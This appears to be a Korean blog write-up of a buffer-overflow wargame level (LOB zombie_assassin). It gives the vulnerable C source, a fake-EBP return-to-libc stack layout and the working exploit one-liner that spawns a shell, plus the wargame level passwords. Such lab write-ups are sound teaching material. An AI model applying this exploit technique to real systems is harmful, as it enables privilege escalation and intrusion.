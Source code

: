 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 LEVEL16 (Assassin -> Zombie_assassin) : Fake Ebp"
date: 2015-11-30 22:03:10
category: wargame
tags:  bof 
---
```


- id = assassin
- pw = pushing me away

<!-- more -->

## 1. 문제 : zombie_assassin.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - zombie_assassin
        - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
                printf("stack retbayed you!\n");
                exit(0);
        }

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

        // strncpy instead of strcpy!
        strncpy(buffer, argv[1], 48);
        printf("%s\n", buffer);
}
```

### 1.1 변경된 코드

buffer overflow 를 위한 strcpy() 가 이번에는 strncpy(X,X,48)로서 48bytes = buffer[40] + sfr[4] + lr[4] 만큼만 copy 를 한다.

```c
// strncpy instead of strcpy!
strncpy(buffer, argv[1], 48);
```

## 2. 공격 준비

(Level12 도 그랬지만… EBP 를 이용한 공격에 익숙하지 않아서 그런지… 처음에는 너무 어려웠지만… 참 재밌는 문제다…)

### 2.1 공격 방법 고민

이번 문제에서는 ret() 만 하고 오면 되었는데, 이번에는 LR 뒤 값을 copy 할 수 없다. 즉, stack 을 원하는대로 구성을 할 수 없다는 것이다. 그럼 어떻게 공격할 수 있을까 ? 그럼 모든 공격 코드를 ROP 로 작성해야할까 ?

다행히… 힌트가 있다. fake ebp. 12단계 : (Golem -> Darkknight) : Sfp와 같이 ebp 를 crash 한 다음에 흐름을 바꾸어야 하는 것 같다.

### 2.2 Stack 구성

```
[ Buffer[40] ][ SFR ][ LR ][ ...]
= [4Bytes][ system() ][ exit() ][ /bin/sh ][NOP 28Bytes][ SFR ][ leave() ]
     /|\                                                    |
      |-----------------------------------------------------|

- system() : 0x40058ae0
- exit()   : 0x400391e0
- /bin/sh  : 0x400fbff9
- NOP
- SFR
- leave()  : 0x080484df

./zombie_assassin "`python -c 'print "\xe0\x8a\x05\x40" + "\xe0\x91\x03\x40" + "\xf9\xbf\x0f\x40" + "\x90"*28 + "\x4c\xfc\xff\xbf" + "\xdf\x84\x04\x08"'`"
```

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage16-1.png)

## 3 Exploit

```bash
./zombie_assassin "`python -c 'print "\xe0\x8a\x05\x40" + "\xe0\x91\x03\x40" + "\xf9\xbf\x0f\x40" + "\x90"*28 + "\x4c\xfc\xff\xbf" + "\xdf\x84\x04\x08"'`"   
à@à@ù¿@Lü ¿ß

bash$ id
uid=515(assassin) gid=515(assassin) euid=516(zombie_assassin) egid=516(zombie_assassin) groups=515(assassin)
```

## 4. 다음 단계 정보

```bash
bash$ id
uid=515(assassin) gid=515(assassin) euid=516(zombie_assassin) egid=516(zombie_assassin) groups=515(assassin)

bash$ my-pass
euid = 516
no place to hide
```

